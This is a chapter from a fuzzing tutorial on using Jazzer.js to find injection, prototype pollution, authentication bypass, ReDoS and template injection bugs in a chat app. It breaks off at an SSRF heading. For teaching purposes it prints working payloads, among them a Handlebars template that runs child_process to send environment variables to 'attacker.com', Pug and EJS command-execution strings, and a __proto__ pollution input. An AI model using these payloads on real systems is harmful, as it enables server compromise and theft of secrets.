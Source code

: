 == Chapter 7: JavaScript Service Reliability with Jazzer.js

_Applying libFuzzer techniques from Chapter 2 to discover bugs in your chat application code_

'''

Your libFuzzer expertise from Chapter 2 transfers directly to chat applications, but here's the twist: you're hunting bugs in code you wrote, not stress-testing JavaScript engines. When users type messages into your chat interface, those characters flow through authentication logic you implemented, message validation you designed, and rendering code you built. Each layer contains potential vulnerabilities waiting for systematic discovery.

*Your Chat Application Security Priority Matrix*

Before diving into fuzzing techniques, here's your vulnerability assessment framework based on chat application features you control:

*Critical Vulnerabilities (Fix immediately - 4 hours)*
Your user authentication and room access control logic presents the highest security risk. Permission checking functions, user ID validation, and administrative privilege escalation represent attack vectors that compromise your entire chat system when exploited.

*High Impact Vulnerabilities (Address this week - 8 hours)* +
Message processing and content rendering create user-facing attack surfaces. Cross-site scripting vulnerabilities in message display, injection flaws in search functionality, and protocol abuse in WebSocket event handling affect every user interaction with your chat platform.

*Medium Priority Vulnerabilities (Monthly focus - 16 hours)*
Template processing, external content handling, and input validation systems represent significant attack vectors when processing user-controlled data through server-side components that enable code execution or network access.

This prioritization focuses exclusively on vulnerabilities in chat application code you wrote and control. You're not testing whether the JavaScript engine handles pathological JSON parsing--that's V8's responsibility. You're discovering authentication bypasses in your permission logic, injection flaws in your message processing, and code execution vulnerabilities in your template handling.

*Implementation Reality Check*: Most developers discover their first chat application vulnerability within thirty minutes of systematic testing. Plan four hours for initial harness development, eight hours for continuous integration setup, and two hours monthly for maintenance as your chat features evolve.

Jazzer.js brings systematic vulnerability discovery to your chat application logic using the same coverage-guided exploration you mastered in Chapter 2. Write harnesses targeting your authentication functions, message processing pipelines, and template handling code while Jazzer.js systematically explores input combinations that trigger security failures.

Picture your real-time chat system: Express.js routes handling user registration and login, middleware validating room access permissions, WebSocket handlers processing message broadcasts, template engines formatting notification emails. You implemented validation functions, designed authorization schemes, built message rendering logic, and created template processing systems.

Traditional testing validates expected user behavior. Users register with valid email addresses, send appropriate messages, join authorized chat rooms, receive properly formatted notifications. Manual testing rarely explores the boundaries where your application logic fails: malformed authentication tokens, malicious message content, template injection payloads, or crafted requests that expose vulnerabilities.

What happens when user registration receives JSON payloads designed to corrupt object prototypes throughout your application? When message content contains script tags targeting your rendering logic? When notification templates include code execution payloads? When external content requests target internal network resources?

Here's what makes chat application security testing immediately valuable: you're discovering exploitable vulnerabilities in features you built and can fix. Authentication bypasses in permission checking logic you wrote. Cross-site scripting flaws in message rendering you implemented. Code execution vulnerabilities in template processing you designed. Network access issues in content fetching you architected.

=== *Message Content Injection: When Chat Features Become Attack Vectors*

Your chat application's core functionality revolves around users submitting message content that gets displayed to other users. This fundamental feature--accepting user input and rendering it for community consumption--creates conditions for injection attacks when your processing logic contains security gaps.

Consider your message posting workflow. Users type content into chat input fields, click send buttons, and expect their messages to appear in conversation threads. Your client-side JavaScript captures input text, packages it into WebSocket events or HTTP requests, and transmits it to your server. Your backend validates message content, stores it in databases, and broadcasts it to room participants. Finally, your frontend receives message data and renders it in chat interfaces for all users to see.

Each step in this workflow processes user-controlled content through code you wrote. Message submission handlers, content validation functions, database storage operations, broadcast distribution logic, and rendering components all handle potentially malicious input that could exploit vulnerabilities in your implementation.

The most obvious injection vector targets your message rendering logic. Users submit message content containing HTML script tags. Your backend stores this content without proper sanitization. When other users load the chat interface, your frontend renders the malicious content directly into the DOM using innerHTML operations or similar dynamic content insertion methods.

The attacking user gains access to authentication tokens, can perform actions on behalf of other users, steal sensitive information from chat conversations, or redirect users to malicious external sites. Your message feature becomes a vector for compromising every user in affected chat rooms.

But injection attacks extend far beyond basic cross-site scripting in message content. Your chat application likely includes search functionality for finding messages, users, or chat rooms. Search implementations often construct database queries incorporating user-provided search terms. When search logic concatenates user input directly into SQL queries or NoSQL commands without proper sanitization, attackers can inject malicious query syntax to access unauthorized data or manipulate database contents.

User registration and profile management features present additional injection opportunities. Username validation, email processing, and bio content handling all accept user input that gets processed through various application components. File upload functionality for avatar images processes metadata that could contain injection payloads targeting image processing libraries or file storage systems.

WebSocket message handling creates real-time injection vectors unique to chat applications. Your WebSocket event handlers process arbitrary event types and payloads submitted by connected clients. When event processing logic doesn't validate event types or sanitize event data properly, attackers can submit crafted WebSocket messages to trigger unauthorized actions, escalate privileges, or bypass normal chat application security controls.

[PLACEHOLDER:CODE Message_Processing_Harness. Jazzer.js harness targeting chat message posting, content validation, search functionality, and WebSocket event handling. Tests message content injection, username validation bypass, DOM manipulation vulnerabilities, and protocol abuse in chat application features. High value. Demonstrates systematic discovery of injection vulnerabilities in developer-written chat application logic.]

Traditional testing validates normal message content that users typically send: text messages, emoji reactions, image attachments, @mentions, and hashtags. Developers verify that appropriate content gets displayed correctly, notifications work properly, and chat features function as expected. Testing rarely explores malicious content scenarios: script tags in messages, SQL injection in search queries, protocol abuse in WebSocket events, or path traversal in file uploads.

Your chat application's message processing pipeline demonstrates how systematic testing discovers injection vulnerabilities across multiple attack vectors. Message content validation represents the most obvious target, but search functionality, user management features, file processing, and real-time communication all handle user input through potentially vulnerable code paths.

Detection strategies focus on monitoring how your chat application processes and renders user-controlled content. Track whether message content gets properly sanitized before storage and display. Verify that search functionality doesn't expose database errors or unauthorized data access. Confirm that WebSocket event handling validates event types and enforces proper authorization. Test whether injection payloads actually achieve their intended effects: script execution, data access, privilege escalation, or security control bypass.

The systematic exploration reveals injection vulnerabilities specific to chat application features rather than generic web application attack vectors. You're discovering whether your message posting logic, search implementation, user management features, and real-time communication components properly validate and sanitize user-controlled data.

With message content injection vulnerabilities identified and addressed, your attention turns to object manipulation attacks that can corrupt your application's fundamental behavior.

=== *Prototype Pollution: When User Profiles Corrupt Your Application*

Every JavaScript object inherits properties from Object.prototype. Your user profiles, message objects, room configurations--they all share this fundamental prototype chain that attackers can manipulate through seemingly innocent input processed by trusted utility libraries.

*CVE-2024-21529: The dset Vulnerability That Affects Real Chat Applications*

Consider how your chat application handles user profile updates. Like thousands of other JavaScript applications, you probably use the popular `dset` utility package to manage nested configuration objects. At only 194 bytes and with 171 dependent packages in the npm registry, dset appears to be the perfect solution for setting deep object values safely.

Your user profile update endpoint accepts profile changes through your registration form: username, bio, avatar URL, notification preferences. Your Express.js route uses dset to merge submitted data with existing profile objects--a completely standard practice that developers trust implicitly.

[,javascript]
----
import { dset } from 'dset';

// Standard chat application profile update logic
function updateUserProfile(userId, profileUpdates) {
    const userProfile = getUserProfile(userId);

    // Process each update using the trusted dset utility
    Object.entries(profileUpdates).forEach(([path, value]) => {
        dset(userProfile, path, value);
    });

    saveUserProfile(userId, userProfile);
}
----

This implementation looks secure and follows JavaScript best practices. You're using a well-maintained utility library specifically designed for safe deep object manipulation. The dset package promises "safely writing deep Object values" right in its description.

But CVE-2024-21529 reveals the hidden danger: dset versions before 3.1.4 contain a prototype pollution vulnerability that allows attackers to inject malicious properties into the global Object prototype chain through crafted input paths.

Now imagine someone submits this profile update through your normal registration interface:

[,json]
----
{
    "username": "alice",
    "bio": "Software developer interested in security",
    "preferences.notifications.email": true,
    "__proto__.isAdmin": true
}
----

Your profile updating logic processes this input exactly as designed. The username and bio fields update appropriately. The notification preferences get set using dset's dot-notation path handling. But that `__proto__.isAdmin` property doesn't just modify the user's profile--it corrupts the prototype chain for every object in your entire chat application.

Due to the vulnerability in dset's path handling logic, this innocent-looking profile update injects an `isAdmin` property into Object.prototype. Suddenly every object in your chat application inherits this property with the value `true`.

Your authentication middleware checks `user.isAdmin` for administrative privileges. Room creation logic validates admin permissions using the same property. Message moderation features verify administrative access through identical checks. All these security controls now return `true` for every user because one profile update exploited the dset vulnerability to corrupt global object behavior.

[,javascript]
----
// Your authentication logic becomes compromised
function checkAdminPrivileges(user) {
    // This check now returns true for ALL users
    // after prototype pollution via dset vulnerability
    return user.isAdmin === true;
}

// Room management becomes compromised
function canCreatePrivateRoom(user) {
    // Every user can now create private rooms
    return user.isAdmin || user.role === 'moderator';
}
----

This isn't theoretical vulnerability research targeting obscure edge cases. Your chat application processes user profiles through registration endpoints, settings management interfaces, and social features exactly like this. Profile picture uploads include metadata objects that get processed through utilities like dset. Room preference updates merge user configurations with defaults using the same patterns. Each operation represents potential prototype pollution vectors that manual testing cannot discover systematically.

*Why Trusted Libraries Create Dangerous Vulnerabilities*

The dset vulnerability demonstrates why prototype pollution represents a significant threat to chat applications. Developers explicitly choose utilities like dset because they promise safety and security. The package description emphasizes "safely writing deep Object values" which creates false confidence in the security of the implementation.

CVE-2024-21529 received a high severity score of 8.8 precisely because it affects a widely-trusted utility that developers integrate without suspecting security implications. The vulnerability allows attackers to "inject malicious object property using the built-in Object property *proto*, which is recursively assigned to all the objects in the program."

Your chat application provides multiple attack vectors for exploiting this dset vulnerability:

* *User profile management*: Setting nested preferences and configuration options
* *Room configuration updates*: Modifying privacy settings and access controls
* *Message metadata processing*: Handling file upload metadata and content attributes
* *Social feature settings*: Managing friend lists and notification preferences

Each integration point where your chat application uses dset (or similar utilities) to process user-controlled data represents a potential prototype pollution attack vector that could compromise authentication logic across your entire platform.

*Systematic Discovery of Library-Based Prototype Pollution*

Traditional testing validates normal profile updates using expected input patterns: changing usernames, updating bio text, modifying notification settings through UI controls. Manual testing never explores crafted JSON payloads containing `__proto__`, `constructor.prototype`, or other pollution vectors targeting utility library vulnerabilities.

[PLACEHOLDER:CODE dset_Prototype_Pollution_Harness. Jazzer.js harness specifically targeting CVE-2024-21529 in dset library usage within chat application profile processing. Generates path strings containing *proto*, constructor, and prototype pollution vectors while testing object merge operations through dset function calls. Monitors global Object.prototype for corruption after profile update operations. High value. Demonstrates systematic discovery of real-world prototype pollution vulnerabilities in trusted utility libraries used by chat applications.]

The systematic approach reveals both whether your chat application uses vulnerable versions of libraries like dset, and whether your usage patterns create exploitable prototype pollution conditions. Generate pollution payloads targeting specific utility library vulnerabilities, then monitor how corruption propagates through your chat application architecture.

Detection requires monitoring global object state before and after user input processing operations that invoke utility libraries. Verify that prototype modifications don't persist beyond individual requests. Check whether clean objects retain expected behavior after profile updates complete. Confirm that authentication and authorization logic continues functioning correctly when processing subsequent requests.

*The Hidden Risk of Utility Library Dependencies*

The dset vulnerability illustrates a broader security challenge in modern JavaScript development: trusted utility libraries can introduce systemic vulnerabilities that affect every component of your chat application. When prototype pollution occurs through library code, the corruption affects not just the immediate operation but every subsequent object interaction throughout your application lifecycle.

This dependency-based vulnerability model makes prototype pollution particularly insidious in chat applications because:

. *Universal Impact*: Corruption from one user's profile update affects authentication logic for all subsequent users
. *Persistent Effects*: Prototype pollution can survive across multiple request cycles depending on your application architecture
. *Trust Assumptions*: Developers integrate utilities like dset specifically because they trust the security implications
. *Hidden Attack Surface*: The vulnerability exists in code you didn't write but your application depends on

Understanding prototype pollution through real vulnerabilities like CVE-2024-21529 provides essential context for discovering similar dependency-based security issues in your chat application's utility library usage patterns.

With prototype pollution vulnerabilities identified and addressed through systematic testing of both your code and your dependencies, attention turns to authentication logic that might contain type-based security bypasses.

=== *Authentication Logic Bypasses: When Permission Checks Fail*

Your chat application's security foundation rests on authentication and authorization logic you implemented to control user access to rooms, administrative functions, and sensitive operations. User login verification, room access control, message deletion permissions, and administrative privilege checking all depend on comparison operations and validation logic in code you wrote.

JavaScript's flexible type system creates opportunities for authentication bypasses when your permission checking logic uses loose equality comparisons or inadequate input validation. These vulnerabilities emerge from seemingly minor implementation details that have significant security implications for your entire chat platform.

Consider your room access control logic. Users request to join specific chat rooms by submitting room identifiers through your client interface. Your server-side authorization function retrieves the user's allowed rooms list and checks whether the requested room identifier appears in that list. This fundamental security control determines whether users can access private conversations, administrative channels, or restricted community spaces.

Your implementation compares the submitted room identifier with stored allowed room identifiers using JavaScript's equality operators. When your allowed rooms list contains numeric identifiers but user input arrives as string values, type coercion can bypass your authorization checks entirely. The comparison "123" == 123 returns true in JavaScript, potentially granting access to users who shouldn't be authorized for specific rooms.

This type confusion vulnerability extends throughout your chat application's security controls. User authentication during login might compare user IDs using loose equality, allowing string representations to match numeric stored values inappropriately. Administrative privilege checking could use similar loose comparisons, enabling privilege escalation through type manipulation. Message ownership validation for editing or deletion might suffer from identical type-based bypass vulnerabilities.

Your administrative access control illustrates the severe impact of these seemingly minor implementation choices. Administrative users possess elevated privileges for user management, content moderation, and system configuration. Your admin checking logic compares the authenticated user's identifier with a list of administrative user IDs stored in your application configuration.

When an attacker submits requests with user identifiers crafted to exploit type coercion behavior, they might gain administrative access through comparison operations that don't enforce strict type matching. Administrative privileges enable account manipulation, content deletion, user banning, and access to sensitive chat application functionality that should remain restricted to legitimate administrators.

But authentication bypasses extend beyond simple type coercion scenarios. Your user identification logic might use parseInt() functions to process user IDs extracted from authentication tokens, URL parameters, or request headers. JavaScript's parseInt() function exhibits surprising behavior with malformed input that could enable authentication bypass attacks.

When parseInt() processes input like "123abc", it successfully parses the numeric prefix and returns 123 while ignoring the trailing garbage characters. Hexadecimal inputs like "0x7B" get parsed as base-16 numbers, potentially matching decimal user IDs inappropriately. Whitespace-padded inputs like " 123 " still parse successfully, bypassing validation logic that expects clean numeric values.

*Systematic Type Confusion Testing*

Traditional testing validates normal authentication scenarios using expected data types and properly formatted input. Developers test user login with correct credentials, room access with valid identifiers, administrative functions with legitimate admin accounts. Testing rarely explores type conversion boundaries where unexpected input types bypass security controls through automatic conversion or parsing edge cases.

[,javascript]
----
// Type confusion fuzzing approach
function fuzzAuthenticationCheck(data) {
    const user = JSON.parse(data);

    // Generate mixed data types for user ID
    const userIdVariants = [
        user.id,                    // Original value
        String(user.id),            // String conversion
        Number(user.id),            // Number conversion
        [user.id],                  // Array wrapper
        {valueOf: () => user.id},   // Object wrapper
        user.id + "",               // Implicit string conversion
        +user.id,                   // Implicit number conversion
        parseInt(user.id + "abc"),  // Parsing edge cases
        parseFloat(user.id + ".0"), // Float conversion
    ];

    userIdVariants.forEach(id => {
        const result = checkAdminPrivileges({...user, id: id});
        logAuthenticationResult(id, result);
    });
}
----

Your chat application's permission system provides multiple targets for authentication bypass testing. Room access control determines which users can join specific chat channels. Administrative privilege checking governs access to user management and content moderation features. Message ownership validation controls editing and deletion permissions. User identification logic throughout these systems processes various input formats that could trigger authentication bypasses.

The generation strategy targets type confusion scenarios while remaining focused on your chat application's specific authentication architecture. Test different data types in place of expected user identifiers: strings where numbers are expected, arrays where primitives are expected, objects where simple values are expected. Focus particularly on values that coerce to expected results through JavaScript's type conversion rules.

[PLACEHOLDER:CODE Authentication_Bypass_Harness. Comprehensive harness targeting chat room access control, administrative privilege checking, and user identification logic. Generates mixed data types, malformed IDs, and type confusion scenarios specifically for chat application permission systems. High value. Demonstrates both comparison bypasses and parsing edge cases in developer-written chat application authentication code.]

Detection requires monitoring authentication decisions and flagging unexpected authorization successes that might indicate bypass vulnerabilities. Track when loose equality comparisons succeed between different data types in security-relevant operations. Verify that parsing operations handle malformed input appropriately without enabling unauthorized access. Confirm that authentication bypasses actually compromise chat application security rather than just violating type expectations.

The systematic exploration reveals authentication vulnerabilities specific to your chat application's permission model rather than generic authentication bypass techniques. You're testing whether your room access logic, administrative controls, and user identification functions properly validate user permissions under adversarial input conditions designed to exploit implementation weaknesses in code you wrote and control.

Understanding authentication bypass vulnerabilities in your chat application provides context for examining how input validation logic might exhibit blocking behavior under specific usage patterns.

=== *Input Validation Performance Traps: When Chat Features Hang*

Your chat application validates user input through regular expression patterns you designed to ensure usernames meet formatting requirements, email addresses conform to expected structures, and message content excludes inappropriate material. These validation functions protect your application from malformed data while providing user-friendly feedback about input requirements.

But regular expressions can exhibit exponential time complexity when processing specially crafted input strings that trigger catastrophic backtracking in pattern matching algorithms. Attackers exploit this algorithmic vulnerability by submitting input designed to cause your validation functions to consume excessive CPU resources, effectively creating denial-of-service conditions through single malformed requests.

*CVE-2024-21538: The cross-spawn Vulnerability That Blocks Real Applications*

Your chat application likely uses the cross-spawn package for spawning child processes - perhaps for file processing, image manipulation, or external command execution. Cross-spawn is a fundamental Node.js utility with millions of weekly downloads, making it a trusted component in most JavaScript applications.

CVE-2024-21538 reveals a ReDoS vulnerability in cross-spawn versions before 7.0.5. The vulnerability exists in the argument escaping logic that processes command-line parameters. When your chat application processes user-controlled data through cross-spawn - such as filename handling, command parameter construction, or process argument validation - specially crafted input can trigger exponential backtracking.

Consider your file upload processing workflow:

[,javascript]
----
const { spawn } = require('cross-spawn');

// File processing in chat application
function processUploadedFile(filename, options) {
    // User controls filename through file upload
    // cross-spawn processes this through vulnerable regex
    const result = spawn('convert', ['-resize', '200x200', filename, options.output]);
    return result;
}
----

An attacker uploads a file with a malicious filename consisting of many backslashes followed by a special character:

[,javascript]
----
const maliciousFilename = "\\" + "\\".repeat(1000000) + "◎";
----

When cross-spawn processes this filename through its argument escaping logic, the vulnerable regular expression triggers catastrophic backtracking. Your file processing function blocks the event loop for thirty seconds or more, preventing your chat application from processing any other requests. User authentication hangs, message posting stops responding, WebSocket connections timeout, and your entire chat service becomes unresponsive because one malicious filename submission exploited the cross-spawn vulnerability.

Your username validation logic illustrates similar vulnerability patterns. User registration requires usernames matching specific patterns: alphanumeric characters, underscores, and hyphens in reasonable combinations. Your validation function implements this requirement using a regular expression that seems straightforward and appropriate for the intended purpose.

However, certain regex constructions contain nested quantifiers that create exponential search spaces when matching fails. An attacker submits a username consisting of many repeated characters followed by a symbol that prevents successful matching. Your regex engine exhaustively explores every possible way to match the pattern against the input string before ultimately concluding that no match exists.

This algorithmic complexity vulnerability affects various input validation scenarios throughout your chat application. Email validation during user registration, message content filtering for inappropriate material, search query processing for finding users or messages, and file name validation during avatar uploads all potentially contain regex patterns vulnerable to catastrophic backtracking attacks.

*Systematic ReDoS Discovery*

Traditional testing validates normal input scenarios that complete quickly: realistic usernames, valid email addresses, appropriate message content, reasonable search queries. Developers verify that validation functions accept correct input and reject malformed data appropriately. Testing doesn't systematically explore input designed specifically to trigger worst-case algorithmic behavior in regex pattern matching.

[,javascript]
----
// ReDoS attack generation targeting cross-spawn vulnerability
function generateReDoSPayload() {
    // CVE-2024-21538 specific payload
    const backslashes = "\\".repeat(1000000);
    const trigger = "◎";
    return backslashes + trigger;
}

// Generic ReDoS patterns for validation testing
function generateValidationAttacks(fuzzer) {
    const patterns = [
        "(a+)+$",                    // Nested quantifiers
        "([a-zA-Z]+)*$",             // Alternation with repetition
        "(a|a)*$",                   // Alternation ambiguity
        "a+a+a+a+a+a+a+a+a+a+$",    // Many quantifiers
    ];

    return patterns.map(pattern =>
        fuzzer.generateWorstCaseInput(pattern)
    );
}
----

The generation strategy requires analyzing your chat application's validation patterns for algorithmic complexity vulnerabilities. Identify nested quantifiers, overlapping alternatives, and other regex constructions prone to catastrophic backtracking. Generate input strings that specifically target these pattern structures by creating scenarios that force the regex engine to explore maximum backtracking paths before failing.

[PLACEHOLDER:CODE ReDoS_Attack_Generator. Sophisticated harness targeting CVE-2024-21538 in cross-spawn usage and general regex validation patterns in chat applications. Generates inputs that trigger exponential backtracking in regex patterns based on pattern analysis of chat application validation logic. High value. Demonstrates systematic ReDoS discovery with immediate chat application performance impact.]

Detection focuses on execution time rather than functional correctness. Monitor how long validation operations take to complete and flag input that causes processing delays exceeding reasonable thresholds. Anything requiring more than one hundred milliseconds for simple input validation likely indicates algorithmic complexity problems that could be exploited for denial-of-service attacks.

Your chat application's validation logic demonstrates clear targets for performance testing. Username validation during registration ensures usernames conform to acceptable patterns. Message content filtering removes inappropriate material from chat conversations. Search query validation prevents injection while ensuring reasonable complexity. Room name validation enforces naming conventions for chat spaces. File processing through cross-spawn handles user uploads and content manipulation.

ReDoS vulnerabilities become particularly dangerous in chat applications because validation happens in the request processing path for user-facing features. When username validation hangs during registration, new users cannot create accounts. When message filtering blocks during content processing, chat conversations stop functioning. When search validation triggers exponential complexity, users cannot find messages or contacts. Single malicious inputs can render specific chat features completely unavailable for all users.

The systematic approach discovers whether validation patterns contain complexity vulnerabilities and exactly which input patterns trigger worst-case performance characteristics. This knowledge enables either fixing regex patterns to eliminate backtracking vulnerabilities or implementing timeout mechanisms to prevent validation operations from blocking chat application functionality.

With input validation secured against algorithmic complexity attacks, focus shifts to template processing systems that might contain code execution vulnerabilities.

=== *Template Injection Code Execution: When Chat Features Execute Arbitrary Code*

Chat applications frequently use template engines for dynamic content generation: email notifications with user data, webhook integrations formatting user messages, custom message formatting for bots and integrations, and administrative reporting with user-provided content. These template systems become dangerous when they process user-controlled input without proper sanitization.

Consider your notification email system. Users receive welcome messages when joining rooms, password reset instructions, and weekly digest emails with conversation highlights. Your email template system allows customization through user preference settings, enabling personalized greeting formats and content organization.

[,javascript]
----
const Handlebars = require('handlebars');

function sendWelcomeEmail(userData) {
    // User controls template content through profile settings
    const template = userData.emailTemplate || "Welcome {{name}} to {{roomName}}!";
    const compiled = Handlebars.compile(template);

    // Template injection occurs during compilation and execution
    const message = compiled(userData);
    sendEmail(userData.email, message);
}
----

This implementation appears reasonable for providing personalized user experiences. Users can customize their email format through profile settings, and the template engine handles variable substitution safely. The functionality works correctly for normal template patterns that users typically configure.

But template engines like Handlebars, Pug, and EJS contain powerful features for accessing JavaScript runtime context during template processing. When user input controls template content, attackers can inject template syntax that accesses system functions, executes arbitrary code, or manipulates server state.

An attacker submits this template through your profile customization interface:

[,javascript]
----
const maliciousTemplate = `
Welcome {{name}}!
{{#with (lookup this 'constructor')}}
  {{#with (lookup this 'constructor')}}
    {{#with (lookup this 'prototype')}}
      {{#with (lookup this 'constructor')}}
        {{this 'require("child_process").exec("curl attacker.com/steal?data=" + JSON.stringify(process.env))'}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
`;
----

When your notification system processes this template, the Handlebars engine executes the embedded JavaScript code on your server. The malicious template accesses the Node.js `require()` function through prototype chain traversal, imports the `child_process` module, and executes arbitrary system commands. The attacker gains complete control over your chat server through a seemingly innocent email preference setting.

Your webhook integration system presents another template injection vector. Chat applications often integrate with external services like Slack, Discord, or custom webhooks that format user messages according to destination service requirements. These integrations typically use template engines to transform chat messages into appropriate formats for external APIs.

[,javascript]
----
// Webhook integration with user-controlled formatting
function sendWebhookNotification(message, webhookConfig) {
    const template = webhookConfig.messageTemplate;
    const rendered = templateEngine.render(template, {
        user: message.author,
        content: message.content,
        timestamp: message.timestamp
    });

    sendToWebhook(webhookConfig.url, rendered);
}
----

When users can control webhook templates through administration interfaces or integration configuration, template injection enables code execution in the context of your chat server. Administrative users configuring webhook integrations might not realize they're providing input to template engines capable of executing arbitrary code.

*Systematic Template Injection Discovery*

Traditional testing validates template functionality using normal template patterns: variable substitution, conditional formatting, and loop constructs that work as intended. Developers verify that templates render user data correctly and produce expected output formats. Testing rarely explores template syntax designed to access runtime context or execute system functions.

[,javascript]
----
// Template injection payload generation
function generateTemplatePayloads(fuzzer) {
    const handlebarsPayloads = [
        "{{constructor.constructor('return process')().exit()}}",
        "{{#with process}}{{exit}}{{/with}}",
        "{{lookup (lookup this 'constructor') 'constructor'}}",
    ];

    const pugPayloads = [
        "#{process.exit()}",
        "#{global.process.mainModule.require('child_process').exec('id')}",
    ];

    const ejsPayloads = [
        "<%- process.exit() %>",
        "<%- global.process.mainModule.require('child_process').exec('whoami') %>",
    ];

    return fuzzer.mutateTemplateStructures([
        ...handlebarsPayloads,
        ...pugPayloads,
        ...ejsPayloads
    ]);
}
----

Your chat application's template processing provides multiple attack vectors for code execution testing. Email notification systems process user preference data through template engines. Webhook integrations format user messages according to configurable templates. Administrative reporting generates dynamic content with user-provided data. Bot integration systems might process user-defined response templates.

The generation strategy focuses on template syntax that accesses JavaScript runtime context while remaining focused on your chat application's specific template engine implementations. Test various context escape techniques: constructor chain climbing, prototype access, global object manipulation, and module system exploitation. Generate payloads targeting different template engines that your chat application might use.

[PLACEHOLDER:CODE Template_Injection_Harness. Comprehensive harness targeting template processing in chat email notifications, webhook integrations, and administrative reporting. Generates template injection payloads for Handlebars, Pug, EJS, and other engines while monitoring for code execution indicators. High value. Demonstrates systematic discovery of template injection vulnerabilities in chat application content processing.]

Detection requires monitoring template processing operations for code execution indicators rather than just syntax errors. Track system function access, module loading attempts, file system operations, and network requests initiated during template rendering. Verify that template processing doesn't enable unauthorized access to Node.js runtime capabilities. Confirm that template injection actually achieves code execution rather than just causing template syntax errors.

Template injection vulnerabilities become particularly dangerous in chat applications because template processing often occurs with elevated privileges in server-side context. Code execution through template injection enables complete server compromise, data access, and infrastructure manipulation. Single malicious templates can compromise your entire chat platform and associated infrastructure.

The systematic approach reveals whether your chat application's template processing systems properly isolate user input from code execution context. Understanding template injection provides essential context for examining how external content fetching might expose internal network resources.

=== *Server-Side Request Forgery (SSRF): When Chat Features Access Internal Networks*

